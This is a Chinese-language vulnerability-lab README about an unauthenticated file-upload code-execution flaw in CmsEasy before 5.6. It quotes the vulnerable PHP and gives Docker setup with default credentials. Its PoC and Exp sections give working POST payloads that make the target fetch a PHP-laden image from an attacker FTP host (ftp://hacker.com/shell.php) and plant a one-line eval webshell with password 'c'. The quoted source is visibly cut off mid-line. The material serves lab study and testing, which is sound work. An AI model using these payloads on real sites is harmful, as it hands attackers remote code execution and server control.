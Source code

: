 ## CmsEasy < 5.6 20161012 cut_image 代码执行漏洞

### 说明

感谢 [@cnsolu](https://github.com/cnsolu) 提供漏洞基础详情

### 漏洞信息

CmsEasy是一款基于PHP+Mysql 架构的网站内容管理系统，也是一个PHP开发平台。采用模块化方式开发，功能易用便于扩展，可面向大中型站点提供重量级网站建设解决方案。

CmsEasy < 5.6_20161012 版本 `cut_image_action` 函数存在代码执行漏洞，远程攻击者可在未登录的情况下向服务器上传任意文件，执行任意代码，获取服务器权限。

详细参考：[CmsEasy前台无限制GetShell](https://xianzhi.aliyun.com/forum/read/215.html)

### 漏洞相关代码

```php
function cut_image_action() {
    $len = 1;
    if(config::get('base_url') != '/'){
        $len = strlen(config::get('base_url'))+1;
    }
    if(substr($_POST['pic'],0,4) == 'http'){
        front::$post['thumb'] = str_ireplace(config::get('site_url'),'',$_POST['pic']);
    }else{
        front::$post['thumb'] = substr($_POST['pic'],$len);
    }
    $thumb=new thumb();
    $thumb->set(front::$post['thumb'],'jpg');
    $img=$thumb->create_image($thumb->im,$_POST['w'],$_POST['h'],0,0,$_POST['x1'],$_POST['y1'],$_POST['x2'] -$_POST['x1'],$_POST['y2'$new_name=$new_name_gbk=str_replace('.','',Time::getMicrotime()).'.'.end(explode('.',$_POST['pic']));
    $save_file='upload/images/'.date('Ym').'/'.$new_name;
    @mkdir(dirname(ROOT.'/'.$save_file));
    ob_start();
    $thumb->out_image($img,null,85);
    file_put_contents(ROOT.'/'.$save_file,ob_get_contents());
    ob_end_clean();
    $image_url=config::get('base_url').'/'.$save_file;
    //$res['size']=ceil(strlen($img) / 1024);
    $res['code']="
                    //$('#cut_preview').attr('src','$image_url');
                    $('#thumb').val('$image_url');
                    alert(lang('save_success'));
    ";
    echo json::encode($res);
}
```

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
Mysql | root | root
/admin/ | admin | admin123

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:c_cmseasy_1
 ```

2. 启动环境

 ```
$ docker run -d -p 8000:80 medicean/vulapps:c_cmseasy_1
```

 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### PoC 使用

1. 图片处理

 将 [`poc_phpinfo_700x1120.png`](./poc_phpinfo_700x1120.png)，上传至攻击者FTP服务器并将后缀改为`.php`，如文件名被重命名为`phpinfo.php`
 
 > 也可根据这篇文章[「CmsEasy前台无限制GetShell」](https://xianzhi.aliyun.com/forum/read/215.html)自行生成，生成的脚本为 [jpg_payload.php](./jpg_payload.php)，感谢作者

2. 验证漏洞

 发起 POST 请求，地址为：

 ```
http://目标网站/index.php?case=tool&act=cut_image
 ```

 POST data:

 ```
pic=1ftp://攻击者FTP地址/phpinfo.php&w=700&h=1120&x1=0&x2=700&y1=0&y2=1120
 ```

3. 成功会返回

 ```
{"code":"\r\n \/\/$('#cut_preview').attr('src','\/upload\/images\/201612\/148159258747.php');\r\n $('#thumb').val('\/upload\/images\/201612\/148159258747.php');\r\n\t\t\t\t alert(lang('save_success'));\r\n "}
 ```

4. 访问上传成功后的php文件

 `http://你的 IP 地址:端口号/upload/images/201612/148159258747.php`


#### Exp 使用

使用的图片为 [`exp_eval_post_c_700x1120.png`](exp_eval_post_c_700x1120.png)，步骤与 PoC 使用完全相同。

一句话连接密码为`c`

#### POST data 详细说明

* w=x2=图片宽度
* h=y2=图片高度
* x1=y1=固定0

> 同一张图片，请求时若指定的宽度和高度的值不相同，gd 库转换后的结果也不相同

如果`$_POST['pic']`开头4个字符不是`http`的话，就认为是本站的文件，会从前面抽取掉baseurl（等于返回文件相对路径）所以构造的时候 如果站点不是放在根目录 则需要在前面补位`strlen(base_url)+2` 如果放在根目录 也需要补上1位（`/`的长度）

**举个例子：**

目标站 `http://www.target.com/easy/cmseasy/` 放在 cmseasy 子目录,就需要补上`strlen(base_url)+2 = strlen('cmseasy') + 2 = 9`位，POST数据就是
 
```
pic=111111111ftp://hacker.db/shell.php&w=228&h=146&x1=0&x2=228&y1=0&y2=146
```

目标站 `http://www.target2.com/` 放在web根目录 就需要补上1位，POST数据就是

```
pic=1ftp://hacker.com/shell.php&w=228&h=146&x1=0&x2=228&y1=0&y2=146
```
